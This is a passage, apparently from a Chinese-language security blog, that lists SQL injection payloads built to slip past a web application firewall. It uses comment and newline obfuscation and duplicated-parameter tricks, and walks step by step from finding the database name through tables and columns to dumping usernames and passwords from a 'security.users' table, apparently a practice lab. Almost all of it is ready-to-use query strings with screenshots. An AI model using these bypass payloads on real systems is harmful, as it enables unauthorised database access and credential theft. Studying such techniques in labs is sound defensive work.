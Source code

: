 ```
#数据库
?id=-1+union/\*%00\*/%23a%0A/\*!/\*!select 1,database%23%0a(),3\*/;%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsyXLX7XEcb6QeVXPn7gtfr8WV52jtpd0fqfZE8xIgPr3Kkd7eURUFBg/640?wx_fmt=png)  

```
#表名
?id=-1+union/\*%00\*/%23a%0A/\*!/\*!select\*/1,group\_concat(%23%0atable\_name),3 from information\_schema.tables where table\_schema=0x7365637572697479;%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsHlpz0Fhiay24WToKXlbVuOWhQPMTvM2avMsibMj0YAszFTCyVx6Ho8KA/640?wx_fmt=png)

```
#字段名
?id=-1+union/\*%00\*/%23a%0A/\*!/\*!select\*/1,group\_concat(%23%0acolumn\_name),3 from information\_schema.columns where table\_name=0x7573657273;%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsA71iagT61lxG1UL5D4tf02f3QcB936GfibXQdfyxShyL6llGz9mRU4MA/640?wx_fmt=png)  

```
#字段内容
?id=-1+union/\*%00\*/%23a%0A/\*!/\*!select\*/1,group\_concat(%23%0a0x7E,username,password),3 from security.users;%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsvvCfkuaeXJ7Xb0WwJVzp1A1r6lMAtvI6Gdia24iag4pB0h48XAaJbB2g/640?wx_fmt=png)  

### **第三种：/\*\*&id=-1%20union%20select%201,2,3%23\*/**

```
#字段数：
?id=1/\*\*&id=1%20order by 3%23\*/

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHs9QBgtcvUI2ohRtFfpJ8zaxTqS4VdqBGbkJl3FN8TUjoOyHdWmgacbA/640?wx_fmt=png)  

```
#数据库名
?id=1/\*\*&id=-1%20union%20select%201,database(),3%23\*/

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHspD8xfajYwNVbP2vibdANP9yytfoEEIiad6oyWriaicc3iao0EZFIsvfAt0A/640?wx_fmt=png)  

```
#表名
?id=1/\*\*&id=-1%20union%20select%201,group\_concat(table\_name),3 from information\_schema.tables where table\_schema=0x7365637572697479%23\*/

```
